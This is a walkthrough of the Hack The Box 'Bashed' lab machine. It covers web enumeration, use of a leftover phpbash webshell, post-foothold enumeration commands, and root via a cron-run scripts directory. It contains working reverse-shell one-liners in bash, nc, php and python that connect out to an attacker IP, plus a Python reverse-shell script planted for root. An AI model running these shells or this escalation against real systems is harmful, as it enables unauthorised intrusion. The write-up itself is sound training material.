


Bashed
Linux, Easy, Released 2017-12-10

INTRODUCTION
Bashed features an infosec developer's blog. Seemingly, the blog has just one article. That article shows a pretty huge hint for how to complete the box. Bashed is a fairly easy box, but requires a bit of careful observation after obtaining a foothold. As usual, a basic understanding of linux is an asset.
RECON
I followed my typical first steps. I set up a directory for the box, with a nmap subdirectory. Then set $RADDR to my target machine's IP, and scanned it with my typical nmap "init" scan:
x
nmap -sV -sC -O -n -Pn -oA nmap/init-scan $RADDR My "init" nmap scan: explained
This is a quick yet highly useful scan of the lower 1000 ports. I always use this first.
-sV Version detection. Ex. if port 21 is open, attempt to guess what version of FTP is running. -sC Default script scan; shorthand for
--script=default-O Enable OS detection. Nmap makes its best guess to fingerprint the target. -n Disable DNS resolution: we don't need hostnames. Speeds up the scan greatly. -Pn Skip host discovery, which is unnecessary if we're targeting just one host. -oA Output results in all formats, to thenmap/init-scandirectory.
xStarting Nmap 7.93 ( https://nmap.org ) at 2023-06-06 08:55 IDTNmap scan report for 10.10.10.68Host is up (0.17s latency).Not shown: 999 closed tcp ports (reset)PORT STATE SERVICE VERSION80/tcp open http Apache httpd 2.4.18 ((Ubuntu))|_http-server-header: Apache/2.4.18 (Ubuntu)|_http-title: Arrexel's Development SiteNo exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).TCP/IP fingerprint:OS:SCAN(V=7.93%E=4%D=6/6%OT=80%CT=1%CU=33922%PV=Y%DS=2%DC=I%G=Y%TM=647ECBAEOS:%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=8)OPS(OS:O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11OS:NW7%O6=M53CST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(OS:R=Y%DF=Y%T=40%W=7210%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=ASOS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%TOS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=OS:S)Network Distance: 2 hopsOS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .Nmap done: 1 IP address (1 host up) scanned in 334.20 seconds
There is a webserver running with title "Arrexel's Development Site". It's an Apache server version 2.4.18, running on Ubuntu. When I find a webserver, I go through the following strategy:
Webserver Strategy
Add the target to /etc/hosts.
xxxxxxxxxxecho "10.10.10.68 bashed.htb" | sudo tee -a /etc/hosts☝️ I use
teeinstead of the append operator>>so that I don't accidentally blow away my/etc/hostsfile with a typo of>when I meant to write>>.Download the source code & extract all the links.
Omitted here because it was not helpful for this box. At a high level, this is the process I usually follow:
- Use
wgetto download a copy of the target domain - Use
stringsto extract all strings from the source code - Use regex to parse all strings. I look for text following an
hrefattribute and anything withhttporhttps
- Use
Perform vhost enumeration on the target.
xxxxxxxxxxffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://10.10.10.68:80/ -H "Host: FUZZ.bashed.htb" -c -t 40 -o ./Bashed/fuzzing/vhost-bashed.htb.md -of md -timeout 4 -ic -ac -mc 200,204,301,307,401,403,405,500,404Perform subdomain enumeration on the target.
xxxxxxxxxxffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt -u http://FUZZ.bashed.htb -c -t 40 -o ./Bashed/fuzzing/subdomain-bashed.htb.md -of md -timeout 4 -ic -acPerform directory enumeration on the target domain and any domains collected in steps (3) or (4).
xxxxxxxxxxferoxbuster -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt -u http://bashed.htb -A -d 1 -t 100 -T 4 --burp --smart -o ./Bashed/fuzzing/directory-bashed.htb.json
- For vhost and subdomain enumeration, ANY RESULTS may be important.
- For directory enumeration, there are many false-positives. READ THROUGH THE RESULTS MANUALLY and look for important results. I sometimes run this twice, filtering out the byte size for unimportant pages.
Check each page for a
formwith a POST method, using the list of pages from directory enumeration. I use a handy tool called Selenium Oxide. Below is a snippet that shows how I do this:xxxxxxxxxxexploit = ExploitBuilder('http', addr, use_proxy=args.proxy)with open(f'./{dirname}/discovered_uris.txt', 'r') as f:for f_url in f:# Change subdomainsif addr != f'{baseurl(f_url)}:{port}':# then skip this result# [omitted]exploit.driver.maximize_window()exploit.get(f'/{page(f_url)}')# Only examine sites that have a form that does a POSTforms = exploit.driver.find_elements(By.CSS_SELECTOR, 'form[method="POST"]')user = SeO2User()for frm in forms:print(f'\nExamining form: {frm.get_attribute("outerHTML")}\n')inputs = frm.find_elements(By.CSS_SELECTOR, 'input')# [omitted]Note that this check could also be performed using regex, but regex parsing of HTML is really difficult and error-prone in my experience.
Do banner-grabbing on the target.
xxxxxxxxxxwhatweb $RADDR && curl -IL $RADDRCheck Wappalyzer, a tool used for identifying the underlying technologies of a website. I use the official Wappalyzer plugin for firefox.
Notable results from enumeration of this box included the following:
x(no vhosts)(no subdomains)http://bashed.htb/index.htmlhttp://bashed.htb/single.htmlhttp://bashed.htb/js/main.jshttp://bashed.htb/uploads/http://bashed.htb/php/http://bashed.htb/dev/http://bashed.htb/about.htmlhttp://bashed.htb/contact.htmlApache 2.4.18, Ubuntu, PHP
Exploring the website
The index page shows a pretty fat hint for the box: that the author's tool, phpbash, was developed and tested on this server. The page http://bashed.htb/single.html shows screenshots of the usage of phpbash. It appears to be a webshell used for CTFs. There is also a link to the github page for this tool.
Uploading the webshell
After cloning the repo for phpbash, and noting the presense of the /uploads directory, I decided to try uploading the webshell to the site directly. Since it looked like the website accepted POSTs, I tried sending the code as a file via a post request:
xxxxxxxxxxcurl -X POST @phpbash.php http://bashed.htb
I also tried POSTing the file to http://bashed.htb/php/ and to http://bashed.htb/uploads/. All of the requests were rejected by the server. This seemed like the wrong approach, so I moved on.
Checking the /dev directory

🤤 Here I was trying to upload something, and it was there all along! Wonderful. Let's check it out:

FOOTHOLD
www-data
This is a pretty nice webshell. It has colors and even command history/recall. When entering the webshell, it is clear that this is running commands directly on the server, from the directory where the webshell was obtained. Since this is an Apache server, that directory is /var/www/html/dev and the user is the Apache user www-data.
So what can www-data do? Whenever I gain foothold on a new box, I like to take the following steps:
Linux foothold strategy (aka "new user, who dis?")
Run
id. Find out what groups this user is in. Locate the user within/etc/passwdif possible; see if they have a shell and/orhomedirectory.xxxxxxxxxxid && cat /etc/passwd | grep $USERCheck if the user can sudo
xxxxxxxxxxsudo -lCheck locations that are writable by the user or its group
xxxxxxxxxxfind / -user [username] 2>/dev/nullfind / -group [groupname] 2>/dev/nullDoes the user already have any useful tools?
x
which nc netcat socat python perl phpCheck for any active and listening sockets
x
netstat -tulpn | grep LISTEN☝️ also try
netstat -antpDoes the user have anything in cron?
xxxxxxxxxxcrontab -lDoes the system or root have anything in cron?
xxxxxxxxxxcat /etc/crontabls -laR /etc/cron*Find any SUID or SGID executables that are accessible by the user
x
find / -type f \( -perm -4000 -o -perm -2000 \) -exec ls -l {} \; 2>/dev/null | grep -v '/proc'Download the toolbox (not covered in-depth here).
My toolbox includes linpeas, linenum, pspy, and chisel.
Since HTB boxes are not connected to the internet, I usually get my tools onto the target box by standing up a python webserver and using any available tool (nc, wget, or curl) to download the tools from my attacker machine onto the target box. I also use this webserver for moving exploit code from my attacker box onto the target.
I've prepared a small toolbox for myself, including a short index.html page, that is generally applicable for any CTF box. I suggest any reader of this walkthough does the same.
Run pspy and take a look at any running processes. Since pspy is closed with
ctrl+c, and your reverse shell may not be fully interactive, it is best to run this on a timeout:xxxxxxxxxxtimeout 5m ./pspyRun pre-scripted enumeration tools, such as LinEnum or linpeas
xxxxxxxxxx./LinEnum.sh./linpeas.sh -w
Notable results from the foothold strategy included the following:
- (1) revealed that there are three important users on the box:
www-data,scriptmanager, andarrexel. - ⭐️ (2) revealed that
www-datais able to freelysudoasscriptmanagerfor anything, without a a password. - (3) revealed that
www-datacan write to any of the typical apache directories - ⭐️ More importantly, (3) showed that
scriptmanagercan write to/scripts(not a typical directory) and their home directory/home/scriptmanager. - (4) revealed that
nc,netcat,python(2.7),perl, andphpare all present. - (9), (10), and (11) were not worth executing though the webshell. Better to run a reverse shell first.
USER FLAG
While there are three users on the box, it seems like the webshell's user (www-data) is able to access all of their home directories. To obtain the flag, just go looking for it:
xcd /homelocate user.txtcat /home/arrexel/user.txt
ROOT FLAG
It seems like scriptmanager would be more important than www-data for obtaining the root flag. After all, if the webshell user had access to the root flag, that would be a pointlessly easy box 🤔.
We can easily use www-data to run any command as scriptmanager, but this syntax becomes a bit tedious after a while:
sudo -u scriptmanager [command]It's much better to just make a reverse shell as scriptmanager:
Reverse shell
Based on which tools are present, discovered in foothold step (4), I run through a list of useful reverse shells. These can all be found on GTFObins, along with many more.
First things first, on the attacker box make a new firewall rule to allow the reverse shell from this target:
xxxxxxxxxxsudo ufw allow from 10.10.10.68 to any port 4444 proto tcpAlso on the attacker box, set up a netcat listener:
xxxxxxxxxxbashnc -lvnp 4444☝️ Changing to Bash (instead of my default, zsh) will set us up for success in upgrading the shell later on.
Then, on the target box, try to connect back to the attacker box:
xxxxxxxxxxsudo -u scriptmanager bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'👎 Nope.
...try to connect back to the attacker box:
xxxxxxxxxxsudo -u scriptmanager nc -e /bin/sh 10.10.14.10 4444👎 Nope. -e flag is not supported.
... * cough * try to connect back to the attacker box??
xsudo -u scriptmanager php -r '$sock=fsockopen("10.10.14.10",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
👎 That's a hard nope, buddy.
But like, try to connect back to the attacker box..?
x
sudo -u scriptmanager python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'😝 Now that's more like it!

But this shell is somewhat uncomfortable to use. No tab completion, colours, or command history/recall. Yuck! Let's fix that:
The first step is not necessary: the reverse shell that succeeded already uses bash. But it won't hurt to do it anyway.
Upgrading the Shell
I originally learned this procedure from this blog post. It goes into much more depth, but I find that the following is usually sufficient. In only a few rare cases have I had to do more than this. This also assumes python is available on the target machine. Starting with the "dumb" shell, change from sh to bash:
python -c 'import pty; pty.spawn("/bin/bash")'If you don't have access to python, try this one with perl:
perl -e 'exec "/bin/bash"'Or just go straight to this:
SHELL=/bin/bash script -q /dev/null
You'll have a better prompt now, but still no tab completion and still no ability to use things like less or vi. Let's fix that:
xxxxxxxxxx[ctrl+z]stty raw -echofg [enter] [enter]export TERM=xterm256-colorThe shell will be backgrounded, then enable echo mode with stty, then brought back to the foreground. This should make the shell much more comfortable to use. Enjoy your tab-completion and colours 🌈.
Privilege Escalation
Having upgraded my shell, it's now time to circle back to a couple things:
- Investigate the suspicious
/scriptsdirectory - Run enumeration tools like LinEnum, linpeas, and pspy
The /scripts directory has two files in it:
xscriptmanager@bashed:~$ ls -la /scriptstotal 36drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun 5 17:45 .drwxr-xr-x 23 root root 4096 Jun 2 2022 ..-rw-r--r-- 1 scriptmanager scriptmanager 216 Jun 5 17:48 test.py-rw-r--r-- 1 root root 49 Jun 5 17:48 test.txt
While test.txt is owned by root and cannot be read by scriptmanager, the python file test.py can be read and modified. test.py opens test.txt for writing, writes one line, then closes it again. This is too suspicious.
LinEnum did not reveal anything groundbreaking. It pointed out the non-standard directory /scripts that I had already seen from earlier. However, this is a pretty good hint that it might be the right thing to investigate in more detail.
linpeas pointed out that the sudo version may be vulnerable. sudo --version revealed that the target box is using sudo 1.8.16. Perhaps searchsploit will have some goodies:
searchsploit sudoIndeed there is something that looks applicable:

This exploit is located at /usr/share/exploitdb/exploits/linux/local/51217.sh. On my attacker box, I copied the exploit over to the webserver I use for transferring my toolbox, then from the target box downloaded it into /home/scriptmanager and tried running it:

No dice 🎲 Unfortunately the exploit did not work. I didn't investigate why.
pspy showed something very interesting though. Definitely a PE vector. It showed that scripts from that suspicious /scripts directory are being executed by root, once per minute!

It looks like root will run any python script inside /scripts! That's wonderful. While it would be possible to simply write a python script to read the root flag and write it to an accessible location, it's just as easy (and so much more gratifying) to pop a root shell.
Following the same process as before, let's create a reverse shell as a python script inside /scripts:
First, on the attacker box, make a new firewall rule to allow the root reverse shell from this target:
x
sudo ufw allow from 10.10.10.68 to any port 1337 proto tcpAlso on the attacker box, set up a netcat listener:
x
bashnc -lvnp 1337Then save the same python reverse shell into a new python script /scripts/revshell.py:
xxxxxxxxxximport socket,subprocess,oss=socket.socket(socket.AF_INET,socket.SOCK_STREAM)s.connect(("10.10.14.10",1337));os.dup2(s.fileno(),0)os.dup2(s.fileno(),1)os.dup2(s.fileno(),2)import ptypty.spawn("/bin/bash")On the attacker box, just wait a minute. Before long...

🎉 Behold, a shell is popped.
From there, just cat out the flag at /root/root.txt
LESSONS LEARNED
Attacker
- Follow the procedures you set out for yourself and build up your toolset. The only surefire way to improving your red-team game is by taking notes and always learning.
- Trust your gut. The suspicious
/scriptsdirectory stood out to me almost immediately after gaining a foothold, and it turned out to be the PE vector. - Do a quick investigation of your own before falling back on pre-written enumeration tools. It will save a lot of time in the long run, and give you an idea of what to pay attention to when you eventually run those enumeration tools.
Defender
- As a developer, remember to start fresh when you move from development to production. Don't leave your tools lying around. This server was extremely vulnerable because the developer was playing around with webshells, and left their toy in the
http://bashed.htb/dev/directory. - Lock down directory permissions and restrict users from accessing anything other than what is necessary. For example, there is no reason for
www-datato be able to read everyone'shomedirectories. - Having
rootrun a whole directory of scripts as a periodic process is a pretty bad idea. Even settingtest.pyas a single SUID script, and locking down the directory permissions, would have been an improvement.
Thanks for reading
🤝 🤝 🤝 🤝 @4wayhandshake